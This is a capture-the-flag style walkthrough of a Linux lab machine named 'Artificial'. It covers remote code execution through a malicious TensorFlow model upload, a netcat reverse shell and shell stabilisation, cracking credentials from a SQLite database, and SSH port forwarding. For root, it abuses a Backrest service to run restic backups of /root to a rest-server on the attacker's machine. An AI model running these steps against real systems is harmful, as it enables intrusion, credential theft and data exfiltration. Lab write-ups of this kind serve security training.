### Machine: Artificial
### Difficulty: Easy
### OS: Linux
### Points: 20

#### Overview: This machine was talking about Getting RCE on server via Public vulnerability in tanserflow module and file upload, Privilege Escalation by exploiting internal service.

## Attack Chain
  * Scanning And Website Enumeration.
  * Exploit The Website.
  * Tensorflow RCE.
  * Manual Enumeration On Victim Machine.
  * Getting User Flag.
  * Privilege Escalation. 
  * Privilege escalation Steps

### Scanning And Website Enumeration
  * Scan the target with nmap. `nmap -sC -sV <MACHINE IP>`

  * SSH and HTTP are opened
  * Enumerating The Website, I found login and register page and some information about website.
  * This website you can build your AI model and upload it to this website to test if it's working or not.
  * The website gave you example of AI model's code.


  * I created account to discover more features.



### Exploit The Website
  * Once i logged in, Website redirected me to `/dashboard`

  * There's file upload, I tried many ways to upload reverse shell but it didn't work.
  * I tried to expliot modules of used modules `Tensorflow`.
  * I found exploit but it's only working with old versions of tensorflow module, so i used `Dockerfile` and `requirements` file that was on the website to build docker container with old version of python and tensorflow to make reverse shell.

### Tensorflow RCE
  * I created directory to build container inside using `Dockerfile` and `requirements` files.
  * I moved to this directory `cd <DIRECTORY NAME>`
  * I used these commands to build and run contianer.
    * `docker build -t <CONTAINER NAME> .`
      * This command will build container.
    * `docker run -it -v $(pwd):/app <CONTAINER NAME>`
      * This command will run the container and give shell, And also make every changes done in docker container will be done in your attacker machine.




  * Then we took this `.h5` file and upload to wesbite, and run the listener with netcat `nc` on my attacker machine and click on `View Predictions` button on website and still waiting for the reverse shell.


  * This i executed these command to more interactive and stable shell.
    * `python3 -c "import pty; pty.spawn('/bin/bash')"`
    * `export TERM=xterm`
    * `Ctrl + Z`
    * `stty raw -echo; fg`
    * `Press Enter`

      

### Manual Enumeration On Victim Machine
  * Once i got reverse shell, I was enumerating machine manually and found file called `users.db`.

    
  * I moved this file to my attacker machine and opened it with `sqlite3` and found table called `user` contain a lot of credentials.
  
  
  
  * I cracked all these password and all i need is the credentials of user `gael`.
  
  
### Getting User Flag
  * I logged in as `gael` with SSH by cracked credentials and got user flag `user.txt`.
  

### Privilege Escalation
  * I found service running locally on port `9898`.
  * I forwarded the traffic to my attacker machine using `Port Forwarding`
    * I used this command `ssh -L 9898:127.0.0.1:9898 gael@<MACHINE IP>`.
  * This service called `Backrest` and needs username and passowrd to login.
  * I tried to login with found credentials in database file but i didn't work.
  * I tried to enumerate the machine again and found `.tar.gz` file called `backrest_backup.tar.gz`.
  * I decompressed it to discover what is inside this directory.
  
  
  
  
  * I found hidden directory `.config` contains json file with credentails of `root` user of `Backrest` service.
  * The password was encoded by `base64 encode with salt`.
  
  * I decrypted the password and got plain text credentials.

### NOTE: You should make simple search to know overview about backrest service to can understand privilege escalation steps.

### Privilege escalation Steps
  * Install `rest-server` if it's not installed.
    * `go install github.com/restic/rest-server/cmd/rest-server@latest`
  * run `rest-server` on your attacker machine.
    * `rest-server --path /tmp/<DIRECTORY NAME> --listen :<PORT> --no-auth`
  * Make repo on `Backrest` service, and execute this command from web interface.
  
  
    * `-r rest:http://<YOUR IP>:<PORT>/<REPO NAME> init`.
      * This command will initialize the repo on your rest-server.
    * `-r rest:http://<YOUR IP>:<PORT>/<REPO NAME> backup /root`.
      * This command will backup the root directory into you local repo.
    
    * Then go to you attacker machine and execute these commands.
      * `restic -r /tmp/<DIRECTORY NAME>/<REPO NAME> snapshotes`.
        * This command will all you snapshots.
      
      * `restic -r /tmp/<DIRECTORY NAME>/<REPO NAME> restore <SNAPSHOT ID> --target <TARGET DIRECTORY>`
        * This command will restore `/root` directory and put it into a directory you targeted.
      
      * BOOM, We Got `root.txt`
      

